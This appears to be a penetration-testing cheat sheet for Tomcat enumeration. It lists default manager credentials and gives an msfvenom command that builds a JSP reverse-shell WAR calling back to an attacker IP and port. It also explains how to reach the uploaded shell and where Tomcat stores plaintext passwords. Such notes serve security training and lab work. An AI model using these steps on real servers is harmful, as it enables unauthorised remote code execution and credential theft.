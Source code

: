 # Tomcat enumeration

## Checks
- Check if the Tomcat version is vulnerable
- Test for weak credentials
- Try to connect as admin and get code execution via a WAR file

## Default credentials
- https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown
- Examples :
	- tomcat : s3cret
	- tomcat : tomcat

## Tomcat administration page
- http://10.10.10.10:8080/manager/html

## Generate a WAR payload using metasploit
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.115.128 LPORT=1234 -f war > shell.war
```

Notes:
- It is possible, some time, after uploading a WAR file we get a 404 not found.
   - A WAR file is basicaly a ZIP archive with a .JSP file inside which holds the code.
- In order to bypass this 404, we can access the folder for which we get a 404 and add to the URL the .JSP file
   - This will eventualy execute the malicious code

## Tomcat user and password are stored in clear text in
- < Tomcat-installation-directory >/conf/tomcat-users.xml


